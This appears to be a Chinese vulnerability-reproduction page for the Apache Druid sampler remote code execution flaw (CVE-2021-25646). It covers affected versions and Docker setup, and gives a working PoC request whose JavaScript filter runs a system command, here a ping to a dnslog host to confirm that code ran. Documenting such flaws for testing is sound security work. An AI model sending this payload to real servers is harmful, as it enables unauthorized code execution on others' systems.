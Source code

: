 ```yaml
---
title: Apache Druid sampler 远程代码执行漏洞 CVE-2021-25646
---
```


# Apache Druid sampler 远程代码执行漏洞 CVE-2021-25646

## 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。
Apache Druid 默认情况下缺乏授权认证，攻击者可以发送特制请求，利用Druid服务器上进程的特权执行任意代码。
Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码

## 漏洞影响

<a-checkbox checked>Apache Druid < 0.20.1</a-checkbox></br>

## 环境搭建

这里使用Docker来搭建环境

<a-alert type="success" message="Docker下载链接: https://github.com/apache/druid/archive/druid-0.20.0.zip" description="" showIcon>
</a-alert>

<br/>

下载之后进入目录 `distribution\docker`

执行命令编译 `docker-compose up -d`

![2ff63956-f284-448b-aa1f-ad388b2c1be2](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/2ff63956-f284-448b-aa1f-ad388b2c1be2.png)



## 漏洞复现

验证POC

```shell
POST /druid/indexer/v1/sampler
Content-Type: application/json

{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping p3fpw5.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

![76ab3573-05f8-4abe-b4ea-cd4d400689ee](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/76ab3573-05f8-4abe-b4ea-cd4d400689ee.png)

<br/>

<a-alert type="success" message="注意请求中这个位置改为你的dnslog平台地址" description="" showIcon>
</a-alert>

<br/>

<a-alert type="success" message="java.lang.Runtime.getRuntime().exec('ping -c 4 xxxxx.dnslog.cn')" description="" showIcon>
</a-alert>

<br/>